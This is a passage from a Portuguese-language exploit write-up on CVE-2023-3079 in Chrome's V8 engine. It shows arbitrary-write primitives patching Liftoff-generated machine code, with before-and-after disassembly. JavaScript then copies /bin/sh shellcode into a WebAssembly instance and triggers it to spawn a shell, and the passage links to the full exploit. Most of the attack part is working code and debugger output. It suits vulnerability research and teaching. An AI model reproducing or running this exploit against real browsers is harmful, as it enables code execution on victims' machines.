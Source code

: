 Trocamos as instruções `shrq rcx, 24` por `shr r9d, 0x18` e `addq rcx, r14` por `add eax, eax`, uma comparação de antes/depois:

```nasm
V8 version 11.4.0 (candidate)
d8> arb_write(0, 10n)      
[truncated]
0x1d26426fd81b    1b  488b4e1f             REX.W movq rcx,[rsi+0x1f]
0x1d26426fd81f    1f  48c1e918             REX.W shrq rcx, 24
0x1d26426fd823    23  4903ce               REX.W addq rcx,r14
0x1d26426fd826    26  48891401             REX.W movq [rcx+rax*1],rdx
0x1d26426fd82a    2a  488b9e8f000000       REX.W movq rbx,[rsi+0x8f]
0x1d26426fd831    31  8b7b08               movl rdi,[rbx+0x8]
0x1d26426fd834    34  83ef2a               subl rdi,0x2a
[truncated]
```

```nasm
pwndbg> x/10i 0x1d26426fd81b
   0x1d26426fd81b:	mov    rcx,QWORD PTR [rsi+0x1f]
   0x1d26426fd81f:	shr    r9d,0x18
   0x1d26426fd823:	rex.X  add eax,eax
   0x1d26426fd826:	mov    QWORD PTR [rcx+rax*1],rdx
   0x1d26426fd82a:	mov    rbx,QWORD PTR [rsi+0x8f]
   0x1d26426fd831:	mov    edi,DWORD PTR [rbx+0x8]
   0x1d26426fd834:	sub    edi,0x2a
[truncated]
```

Perfeito! Finalmente podemos simplesmente copiar nosso shellcode e executar shell:

```javascript
const shellcode = [
  0x732f6e69622fb848n, 0x66525f5450990068n, 0x5e8525e54632d68n, 0x68736162000000n, 0xf583b6a5e545756n, 0x5n
];

console.log("[+] Copying shellcode")
v8_write64(wasm_instance_addr + 0x1fn, shellcode_addr);
shellcode.map((code, i) => {
  arb_write(i * 4, code);
})

console.log("[+] Poping shell!!!")
shell();
```

![poping-shell-cve-2023-3079.png](/assets/imgs/abusing-liftoff-assembly/poping-shell-cve-2023-3079.png)

[Final exploit](https://github.com/R3tr074/exploits/blob/master/browser/v8/cve-2023-3079/exploit.js)

## Memory corruption API
